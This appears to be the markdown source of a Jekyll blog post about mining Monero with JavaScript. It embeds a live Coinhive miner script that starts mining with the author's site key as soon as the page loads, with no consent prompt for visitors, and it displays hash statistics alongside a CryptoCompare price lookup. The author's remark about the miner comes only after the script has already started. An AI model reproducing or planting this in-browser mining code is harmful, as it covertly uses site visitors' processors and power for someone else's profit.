 ```yaml
---
layout: post
title: Mining Monero using Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability. It was created in April of 2014 and has since seen a huge uptick in adoption. 
<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>
The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>

I discovered an interesting service today that allows you to embed a Monero Javascript miner into your own webpage. 
I thought this was an interesting idea and immediatly signed up and gave it a try.
The results of that are seen on this page. 

<br />
<br />
### Miner Stats since visiting this page
<div>
Hashes per second: <p id="hashesPerSecond"></p>
Total Hashes: <p id="totalHashes"></p>
Accepted Hashes: <p id="acceptedHashes"></p>
<br />
</div> 